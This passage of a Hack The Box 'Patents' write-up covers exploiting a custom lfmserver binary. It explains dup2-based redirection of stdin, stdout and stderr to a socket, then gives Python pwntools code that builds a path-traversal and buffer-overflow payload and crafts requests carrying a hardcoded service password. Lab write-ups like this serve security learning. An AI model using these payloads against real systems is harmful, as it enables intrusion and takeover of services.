 #### Redirecting stdin, stdout and stderr to the socket
Using dup2 we can redirect stdin, stdout and stderr to the socket.

```c
root@silence:~# man 2 dup2
DUP(2)                                       Linux Programmer's Manual                                       DUP(2)

NAME
       dup, dup2, dup3 - duplicate a file descriptor

SYNOPSIS
       #include <unistd.h>

       int dup(int oldfd);
       int dup2(int oldfd, int newfd);
[...]
```
In order to do so, we have to call dup2 with socket (not known yet) as the old fd and 0 (stdin), 1 (stdout), 2 (stderr) as the newfd.

### Exploitation
The exploit will be developed using python3 with pwntools (4.1.0). This whole section will be an explaination of the key-elements of the exploit code. The complete code can be found on my [Github](https://github.com/chr0x6eos/HTB/blob/master/Patents/root.py).

#### Overflowing the buffer
My initial plan of using /dev/null as the file the read did not work. After a hint from the forum, I tried using `/proc/sys/kernel/randomize_va_space`. As most systems usually have ASLR enabled, the MD5-sum should match with the one from my machine.

```python
def overflow(FILE="/proc/sys/kernel/randomize_va_space"):
    payload = "../../../../../.."# "%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e"
    payload = urlencode(payload)
    payload += FILE
    payload += "%x" # Inject invalid character that will write null bytes
    payload += urlencode("A" * 106) #Overflow # "%41" * 106
    return payload, genMD5(FILE)
```
The overflow function generates and returns a payload to overflow the buffer, as well as the md5sum of the file used.

#### Generating the requests
```python
def genReq(payload):
    junk, md5 = overflow(FILE)
    request = "CHECK /{JUNK}{PAYLOAD} LFM\r\nUser=lfmserver_user\r\n".format(JUNK=junk,PAYLOAD=urlencode(payload,True))
    request += "Password=!gby0l0r0ck$$!\r\n\r\n{md5}\n".format(md5=md5)
    return request
```
The genReq function calls the overflow function and generates a valid request with the inputted payload to exploit the binary.
